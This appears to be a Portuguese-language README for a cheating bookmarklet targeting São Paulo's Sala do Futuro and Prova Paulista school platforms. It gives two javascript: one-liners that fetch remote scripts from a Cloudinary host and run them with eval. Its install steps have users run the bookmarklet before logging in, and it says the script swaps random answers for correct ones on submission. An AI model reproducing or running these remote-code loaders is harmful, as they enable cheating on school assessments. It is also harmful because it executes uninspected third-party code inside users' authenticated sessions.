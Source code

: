 # 🚀 HCK - PROVA PAULISTA 

## HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## HCK - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745882260/saladofuturov2.js").then(t=>t.text()).then(eval);
```
---

## TUTORIAL DE INSTALAÇÃO:

## **Método Desktop**
1. Clique com o botão direito do mouse na **barra de favoritos** do navegador.
2. Selecione a opção **"Adicionar página"** ou **"Adicionar favorito"**.
3. Preencha os campos:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código logo acima.

## **Método Mobile**
1. Clique nos **três pontos verticais** (☰) no canto superior direito do navegador.
2. Selecione o ícone de **estrela** (Adicionar aos favoritos).
3. Na janela que aparecer:
   - **Nome:** Digite qualquer título para o favorito.
   - **URL/Endereço:** Cole o código acima.

---
### COMO USAR:

1. **Execute o bookmarklet** antes de efetuar o **Login no Sala do Futuro.**

2. Vá até a **tarefa**, responda **todas questões aleatoriamente** e envie.

3. O bookmarklet fará o resto, ele irá inserir no **todas às respostas corretas** no lugar.

*Obs: A questão do tempo depende de quanto tempo você permanecer na página da tarefa antes de enviá-la.*

---
### [Discord: Hackermoon](https://discord.gg/gqy67ZXc)

## Créditos/Base:

- [@inacallep](https://github.com/inacallep)

- [@crackingnlearn](https://github.com/crackingnlearn)

- [@miturufu](https://github.com/Miturufu)
